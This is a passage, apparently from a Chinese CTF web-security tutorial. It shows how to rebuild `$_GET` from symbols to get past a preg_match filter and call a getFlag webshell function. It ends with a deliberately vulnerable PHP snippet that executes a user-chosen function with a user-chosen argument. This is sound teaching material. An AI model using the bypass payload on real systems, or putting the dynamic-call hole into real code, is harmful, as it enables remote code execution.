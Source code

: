 所以我们可以知道， `_GET` 就是这么被构造出来的啦！

#### 获取 `_GET` 参数

我们又该如何获取 `_GET` 参数呢？咱们可以构造出如下字串：

```
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根据前面构造的来看， `$_` 已经变成了 `_GET` 。顺理成章的来讲， `$_ = _GET` 。我们构建 `$_GET[__]` 是为了要获取参数值。

#### 传入参数

此时我们只需要去调用 `getFlag` 函数获取 `webshell` 就好了，构造如下：

```
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把参数全部连接起来，就可以了。

![](./figure/preg_match/payloads.png)

结果如下：

![](./figure/preg_match/flag.png)

于是我们就成功地读取到了flag！

### 动态函数执行

用户自定义的函数可以导致代码执行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```
